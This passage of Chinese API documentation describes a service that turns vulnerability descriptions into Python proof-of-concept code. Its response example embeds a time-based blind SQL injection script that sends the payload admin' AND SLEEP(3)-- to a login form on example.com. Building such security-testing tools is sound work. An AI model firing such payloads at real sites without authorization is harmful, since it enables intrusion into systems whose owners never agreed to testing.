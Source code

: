 #### 响应参数

| 字段 | 类型 | 说明 |
|------|------|------|
| `success` | boolean | 是否成功生成 |
| `vulnerability_type` | string | 识别的漏洞类型 |
| `original_vulnerability_info` | string | 原始漏洞信息 |
| `poc_code` | string | 生成的Python POC代码 |
| `explanation` | string | 代码说明和使用方法 |
| `error` | string | 错误信息（失败时） |
| `warning` | string | 安全警告 |

#### 响应示例

```json
{
  "success": true,
  "vulnerability_type": "SQL注入",
  "original_vulnerability_info": "目标网站 http://example.com/login 存在SQL注入漏洞...",
  "poc_code": "import requests\nimport time\n\n# POC验证代码 - SQL注入（时间盲注）\nurl = 'http://example.com/login'\n\n# 安全的验证payload\npayload = \"admin' AND SLEEP(3)--\"\ndata = {'username': payload, 'password': '123456'}\n\nstart_time = time.time()\nresponse = requests.post(url, data=data)\nend_time = time.time()\n\nif (end_time - start_time) >= 3:\n    print('[+] 漏洞存在：检测到SQL注入漏洞')\nelse:\n    print('[-] 漏洞不存在')",
  "explanation": "该POC用于验证SQL注入漏洞...",
  "error": null,
  "warning": "⚠️ 警告：本工具仅用于授权的安全测试和研究目的"
}
```

### 2. 健康检查

**端点**: `GET /api/health`

**功能**: 检查服务状态

#### 响应示例

```json
{
  "status": "healthy",
  "service": "Vulnerability to POC Generator",
  "version": "1.0.0"
}
```

---

## 配置说明
